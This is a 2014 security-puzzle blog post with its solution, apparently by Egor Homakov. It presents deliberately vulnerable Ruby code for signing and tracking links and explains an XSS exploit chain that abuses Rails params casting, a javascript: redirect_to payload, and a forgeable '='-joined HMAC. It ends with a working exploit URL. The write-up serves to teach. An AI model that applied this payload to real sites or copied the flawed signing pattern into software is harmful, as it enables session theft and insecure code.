 ```yaml
---
layout: post
title:  "Puzzle #1"
date:   2014-01-01 18:09:43
author: "Egor Homakov (<a href='https://twitter.com/homakov'>@homakov</a>)"
public: false
---
```


Our task is to track clicked links in the emails. We created trackify method which replaces all URLs in supplied text to proxied ones. To prevent spoofing and open redirects we created a "sign" method.

What you need to find is an XSS in this functionality. It can require up to 1 click. For updates and tips <a href="https://twitter.com/homakov">check my feed</a>.

Tip 1: <a href='https://homakov.github.io/#{"url":"https://cobased.com/trackify","autosubmit":false,"target":"_top","data":"sbmbtn=&body=BODY&","method":"POST"}'>POST /trackify</a> with body parameter to invoke trackify method

Tip 2: <a href='https://homakov.blogspot.com.br/2013/11/stealing-user-session-with-open.html'>This trick might help</a>

{%highlight ruby%}
SECRET = 'something'

def sign(t, url)
dump = [t, url].join('=')
p dump
OpenSSL::HMAC.hexdigest('sha1', SECRET, dump)
end

def track
spl = params[:hash].split('-')
if spl.count == 2
redirect_to sign(spl[0], params[:url]) == spl[1] ? params[:url] : '/FAIL'
end
end

def trackify
doc = Nokogiri::HTML.fragment(params[:body])
timestamp = Time.now.to_i

doc.search('a').each do |node|
url = (node['href'])
if url.starts_with? 'https://'
node['href'] = "https://cobased.com/track?hash=#{timestamp}-#{sign(timestamp, node['href'])}&url=#{URI.encode(node['href'])}".html_safe
end
end
content_type = 'text/plain'
render text: doc.to_s, content_type: 'text/plain' #{response: doc.to_s}
end
{%endhighlight%}

# The Solution

There wasn't much competition so we sent 0.1 BTC to <a href="https://twitter.com/joernchen">@joernchen</a> and to <a href="https://twitter.com/titanous">@titanous</a> as they understood the core concept behind this.

The vulnerability here is an interesting fusion of three different tricks I previously wrote about: <a href="https://homakov.blogspot.com.br/2013/11/stealing-user-session-with-open.html">redirect_to params trick</a>, <a href="https://gist.github.com/homakov/9053446">serialization pitfalls</a> (we will have a blog post on this one) and <a href="https://twitter.com/homakov/status/394654129630359552">abusing params casting</a>.

According to Tip #2 we need to pass url[status]=200&url[protocol]=javascript:... FYI this doesn't work anymore and for edge rails we need something more complex (javascript:// scheme + new line trick):

`payload = {"status" => "200","protocol" => "javascript","f"=>"\neval(name)"}`

This is what we need to get in params[:url]. But how do we sign a Hash? Cool thing about modern programming languages is that they love casting!

Python: str({"x":"1"}) # "{'x': '1'}"

PHP: Array("x"=>"1"); # "Array"

Ruby: {"x"=>"1"} # {"x"=>"1"}

So instead of trying to sign a Hash object let's cast it to String and sign the result!

`payload.to_s.gsub('>','&gt;')` (don't forget to replace hash rockets with html entities)

Gives us:

`{"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}`

OK awesome, let's try to [trackify this body](<https://homakov.github.io/#{"url":"https://cobased.com/trackify","autosubmit":false,"target":"_top","data":"sbmbtn=&body=%3Ca%20href%3D'%7B%22status%22%3D%26gt%3B%22200%22%2C%20%22protocol%22%3D%26gt%3B%22javascript%22%2C%20%22f%22%3D%26gt%3B%22%5Cneval(name)%22%7D'%3Elink%3C%2Fa%3E&","method":"POST"}>)

`<a href='{"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}'>link</a>`

Oh wait, we forgot about `url.starts_with? 'https://'`. Now let's look at custom serialization again. The pitfall here is the signature for original

<b>TIMESTAMP</b> = <b>`https://={"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}`</b>

will remain valid even when we put "=https://" in the timestamp parameter and send our params[:url] as a Hash

<b>TIMESTAMP=https://</b> = <b>`{"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}`</b>

So the final exploit looks like https://cobased.com/track?hash=1405177298=https://ok.com/-f45294c86953da8388e2f0f8dff42a14823a4529&url[status]=200&url[protocol]=javascript&url[f]=%0Aeval(name)

Stay tuned for more challenges!
